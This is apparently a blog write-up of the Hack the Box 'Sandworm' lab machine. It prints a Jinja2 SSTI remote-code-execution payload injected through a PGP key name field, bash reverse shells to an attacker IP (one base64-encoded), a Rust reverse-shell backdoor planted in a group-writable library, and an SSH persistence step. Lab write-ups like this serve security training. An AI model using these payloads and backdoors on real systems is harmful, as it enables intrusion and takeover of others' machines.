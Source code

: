 +++
author = "Nick"
categories = ["hack the box", "Medium"]
date = 2023-04-29T11:00:00.000Z
publishDate = 2023-04-29T11:00:00.000Z
description = " "
summary = ""
draft = false
slug = "hack-the-box-sandworm"
tags = ["hack the box", "Medium", "Linux", "Flask", "SSTI", "PGP", "Reverse Shell", "firejail", "SSH", "rust"]
title = "Hack the Box - Sandworm"
url = "/hack-the-box-sandworm"
thumbnail = "/images/sandworm/logo.png"
+++

Welcome back! Today we're going to be going over the Hack the Box machine Sandworm. This is listed as a medium Linux machine. I wonder if it has any relation to the Sandworm that shook the world... hmmm.

Let's start with a `rustscan` as normal.

Results:

```
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl     syn-ack
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

This is fun, we have a port `80` and a port `443` showing on the server. It also shows that our port `80` request was redirected to `443`. Let's see what's being hosted on the ports. Right off the bat, when we try to browse to port `80` we get `Burpsuite` telling us that it cannot resolve `ssa.htb`. The request also shows a `301` error with a redirect.

![](/images/sandworm/worm1.png)

So we'll add `ssa.htb` to our hostfile and reload the page. Once we do that we are reloaded to the Secret Spy Agency page. Browsing around the site we see that it's built on `Flask`. We also see there's a place for us to supply an encrypted message. There is also a documentation / guide page listed below that on how to use `PGP Encryption`. We also see a user listed here too - `Atlas@ssa.htb`. After some tinkering, we see that the `verify` function seems to simply split out a console output.

![](/images/sandworm/worm2.png)

The key here is to remember what this is built on - `Flask` and we very well could leverage something like `SSTI` to break this in our favor. So to test that theory we create a secret message with a basic `SSTI` within it.

Let's start with begning, first we need to make a `PGP Key`.

Command:
`gpg --gen-key`

Filling out the appropriate info.

Then, we want to export our key.

Command:
`gpg --armor --export bobbillyby@kindy.au > public_key.asc`

Now, we can create a 'message' to verify in the verification tool.

Command:
`echo "{{7*'7'}} >> message.msg"`

Then we sign the message.

Command:
`gpg --clear-sign --output signed_msg.asc message.msg`

Now, we can `cat` the `signed_msg.asc`. This is the content we paste into the verification function on `ssa.htb`. So it did verify the message but did not result in an `SSTI`. However, this is not the only field we can test against.

![](/images/sandworm/worm3.png)

We can test against the fields IN THE KEY as well. So we repeat the process a few times until we find something that might hit. Now in this case when I set the `name` value in the key as `{{7*'7'}}` we see an `error 500` come back in `burpsuite`. Now this could be a breakable field. We'll try another basic injection from [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#jinja2)

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

This time, we did get some info back! We see that it spit out our OS command results!

![](/images/sandworm/worm4.png)

NOTE: I put together a pair of scripts to help with the testing process:

```bash
rm signed_msg.msg && rm public_key.asc
gpg --armor --export test@test.com > public_key.asc
gpg --clear-sign --output signed_msg.msg message.txt
```
and
```bash
for i in `gpg --with-colons --fingerprint | grep "^fpr" | cut -d: -f10`; do gpg --batch --delete-secret-keys "$i" ; done
for i in `gpg --with-colons --fingerprint | grep "^fpr" | cut -d: -f10`; do gpg --batch --delete-keys "$i" ; done
echo "Listing Keys..."
gpg --list-keys
gpg --gen-key

```
This helped a ton in the testing. Now, into crafting the reverse shell.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.2/6969 0>&1"').read() }}
```

Now, this time when we go to create the key, we are told we can't have `>` or `<` in the name... I feel like I knew that. Easy fix, let's `base64` encode this command and then decode it!

Command:
```
echo "bash -i >& /dev/tcp/10.10.14.2/6969 0>&1" | base64
```
Orrrr you can use a tool to encode it.

Now make sure we have our `netcat` listener running on our port of choice as well. Now, we need to tell the server to decode and run the contents of the encoded command. Our final command or 'real name', looks like this:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "e3sgc2VsZi5fX2luaXRfXy5fX2dsb2JhbHNfXy5fX2J1aWx0aW5zX18uX19pbXBvcnRfXygnb3MnKS5wb3BlbignYmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yLzY5NjkgMD4mMSInKS5yZWFkKCkgfX0=" | base64 -d | bash').read() }}
```

We then repeat all the steps above, again. Then use the verify function to catch the shell!

![](/images/sandworm/worm5.png)

We have a shell! However, we don't have the flag yet. We need to look for a way to jump out of the `Atlas` user into `silentobserver`. As we look around and try things as the user, we don't have access to some normal commands like `wget`, `curl`, `sudo` and others. So we're manually enumerating for now. Looking around in the `home` directory for the user we see a `.config` directory.

![](/images/sandworm/worm6.png)

As we dig deaper into the directory, we finally come across `admin.json`.

![](/images/sandworm/worm7.png)

Here we have a username and password as well as a session token! Sure enough, these credentials work for the `SSH` protocol!

![](/images/sandworm/user.png)

So now we copy over some enumeration tools like `linpeas` and `pspy64` and see what we can find. After sifting through the results, there are somethings that stick out, especially the `/usr/local/bin/firejail` binary.

![](/images/sandworm/worm8.png)

Some Googling around finds us this [intestesting explolit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25). Now this exploit needs to be run as `Atlas` and not `silentobserver`. So we copy this the file over to `/tmp/exploit.py` and run it as `Atlas`. Turns out `Atlas` cannot read anything in that location. After trying a few methods, we aren't able to get `Atlas` to read the file in any location via the webshell we obtained. Back to the drawing board. As we resift back through the `linpeas` data, we see the other application with the `SUID` bit set - `tipnet`. Digging into this file and location, we see that the `tipnet.d` file has `lib.rs` and `main.rs` listed. We cross reference the files against our `linpeas` data and see that `lib.rs` is a group writable file.

![](/images/sandworm/worm9.png)

Since this is groupw writable, we'll just sneak in our own backdoor into this file and run the main binary and it should trigger that back door! First we need to get a standard connection back to our system, so for this we can use the [standard Rust documentation](https://doc.rust-lang.org/std/process/struct.Command.html) to append our reverse shell call.

![](/images/sandworm/worm10.png)

Now we'll use the second part of this example.

```rust
let output = Command::new("bash")
    .args("-c")
    .args("bash -i >& /dev/tcp/10.10.14.2/7070 0>&1")
    .output()
    .expect("failed to execute process")
```

Next we'll simply paste this into our `lib.rs` under the `log` function. Make sure our `nc` listern is running and we get a connection back!

![](/images/sandworm/worm11.png)

Now, we have a connection as `Atlas` that has more priviledges. I tried to run the above exploit but it crashed our connection session, so in order to maintain some persistance, we need to add our local `id_rsa.pub` key to the `Atlas` user `authorized_key` file.

Command:
```
echo "YOUR SSH PUB KEY FILE" >> authorized_keys
```
Then we can make a basic `SSH` connection as `Atlas`.

Command:
`ssh atlas@ssa.htb`

![](/images/sandworm/worm12.png)

Now we can try to re-run our exploit.

![](/images/sandworm/worm13.png)

Perfect! Now let's open another `SSH` session and see if we can get to `root`.

![](/images/sandworm/worm14.png)

There we have it, our `root.txt` flag! This was a fun one, I would say on the 'harder' side of medium given the amount that can go wrong with the `rust` code snippets. 